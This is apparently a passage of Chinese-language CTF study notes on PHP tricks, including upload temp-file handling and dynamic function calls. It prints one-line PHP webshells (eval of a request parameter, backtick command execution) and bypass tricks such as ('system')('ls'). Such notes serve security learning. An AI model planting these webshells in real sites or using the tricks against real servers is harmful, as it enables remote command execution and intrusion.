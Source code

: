 
   - 3可以理解为，用了php短标签，<?=相当于echo，不用再多写一个<?=
   - 4可以理解为，eval把字符串当成php代码执行，把括号里面的拿出来需要先闭合前面的<?php

#### 短标签一句话木马 

```php
<?=eval($_REQUEST['cmd']);?>
<?= `$_GET[1]`> //``反引号相当于system,请把system理解成和phpinfo()一样的函数

<?=phpinfo();  //还可以这样写
```


-  
-  对于eval函数，执行命令时，后面要加; 

```php
eval('phpinfo();')
```


## php上传机制

- php上传文件后会将文件存储在临时文件夹，然后用move_uploaded_file() 函数将上传的文件移动到新位置。临时文件夹可通过php.ini的upload_tmp_dir 指定，默认是**/tmp目录**

### 临时文件命名规则

- 默认为 php+4或者6位随机数字和大小写字母
- linux下：phpXXXXXX

### \x09

- \x09表示ASCII码值为09的字符

## php特殊的执行函数命令

- PHP7中可以使用`('phpinfo')();`来执行函数，('system')('ls')
- php中只要变量后紧跟着()，那么就对这个变量进行函数调用

```php
$a = "phpinfo";
echo $a();
```

## php换行符

```php
echo "$var_name1 是数字" . PHP_EOL;
```

## php运算符

### 优先级
